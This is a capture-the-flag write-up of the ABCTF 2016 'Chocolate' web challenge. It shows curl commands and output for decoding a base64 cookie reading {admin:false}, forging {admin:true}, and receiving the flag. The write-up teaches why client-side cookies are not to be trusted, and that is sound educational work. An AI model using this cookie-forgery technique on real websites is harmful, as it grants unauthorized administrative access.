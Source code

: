 _[<<< Return to ABCTF 2016 tasks and writeups](/CTF-Jeopardy/2016-abctf)_
# Chocolate (Web Exploitation, 50 points)

>If you could become admin you would get a flag. [Link](http://yrmyzscnvh.abctf.xyz/web3/)

The website says that we are not admin, let's see why.

![Screenshot from the website yrmyzscnvh.abctf.xyz/web3](chocolate.png)

```console
root@blinils:~/abctf-2016# curl -D- http://yrmyzscnvh.abctf.xyz/web3/

HTTP/1.1 200 OK
[...cut...]
X-Powered-By: PHP/5.5.9-1ubuntu4.17
Set-Cookie: coookie=e2FkbWluOmZhbHNlfQ%3D%3D
[...cut...]

<html>
[...cut...]
You're not an admin. Please leave this site.
[...cut...]
</html>
```

It seems that the coookie (with three 'o') plays a key role in this challenge.

```console
root@blinils:~/abctf-2016# alias urldecode='python -c "import sys, urllib as ul; \
> print ul.unquote_plus(sys.argv[1])"'
root@blinils:~/abctf-2016# urldecode e2FkbWluOmZhbHNlfQ%3D%3D
e2FkbWluOmZhbHNlfQ==
root@blinils:~/abctf-2016# urldecode e2FkbWluOmZhbHNlfQ%3D%3D | base64 -d
{admin:false}
```

Indeed we need to modify the cookie in order to have the flag.

```console
root@blinils:~/abctf-2016# echo -n {admin:true} | base64
e2FkbWluOnRydWV9
root@blinils:~/abctf-2016# curl -D- http://yrmyzscnvh.abctf.xyz/web3/ -H 'Cookie: coookie=e2FkbWluOnRydWV9'
<html>
[...cut...]
Wow! You're an admin, maybe. Well anyway, here is your flag, ABCTF{don't_trust_th3_coooki3}
[...cut...]
</html>
```

